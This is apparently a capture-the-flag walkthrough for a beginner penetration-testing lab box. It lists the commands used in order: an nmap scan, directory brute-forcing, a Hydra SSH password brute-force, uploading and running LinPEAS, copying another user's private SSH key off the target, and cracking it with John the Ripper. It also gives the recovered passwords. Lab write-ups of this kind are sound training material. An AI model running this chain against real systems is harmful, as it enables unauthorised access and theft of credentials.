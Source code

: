 # Basic Penetration Testing Box

--------------------------------------------------------------------
## GIVEN INFO


**IP Address**: 10.10.19.208

--------------------------------------------------------------------
## PROCEDURE



### 1. FIND EXPOSED SERVICES


**TOOLS**: NMap

```
nmap -sC -sV -oN nmap.txt 10.10.19.208
```

![nmap](./nmap.png)

**EXPOSED PORT (SERVICE)**:
  22 (ssh),
  80 (http),
  139 (smbd),
  445 (smbd),
  8009 (ajp13),
  8080 (http)

----------------------------------
## 2. FIND HIDDEN DIR ON WEB SERVER


**TOOLS**: DirBuster

```
dirb http://10.10.19.208
```

![dirb](./dirb.png)

**HIDDEN DIR**: /development

----------------------------------
## 3. GET USERNAME & PASSWORD


**TOOLS**: Enum4Linux, Hydra

**NOTE**: J has a weak password

```
enum4linux -a 10.10.19.208 | tee enum4linux.log
```

![enum4linux](./enum4linux.png)

**USERS**: jan, kay

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt.gz ssh://10.10.19.208
```

![hydra](./hydra.png)

**PASSWORD**: armando

----------------------------------
## 4. FIND PRIVILEGE ESCALATION VECTORS


**TOOLS**: LinPeas, JohnTheRipper

Host Machine
```
  wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
  scp linpeas.sh jan@10.10.19.208:/dev/shm
```

Target Machine
```
cd /dev/shm
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.txt
```

Host Machine
```
scp jan@10.10.19.208:/dev/shm/linpeas.txt linpeas.txt
scp jan@10.10.19.208:/home/kay/.ssh/id_rsa kay_id_rsa
```

![linpeas](./linpeas.png)

```
ssh2john kay_id_rsa > 4john.txt
john 4john.txt
```

![john](./john.png)

**PASSWORD**: beeswax

----------------------------------
## 5. FINAL PASSWORD



```
ssh -i kay_id_rsa kay@10.10.19.208
cat pass.bak
```

**PASSWORD**: heresareallystrongpasswordthatfollowsthepasswordpolicy$$
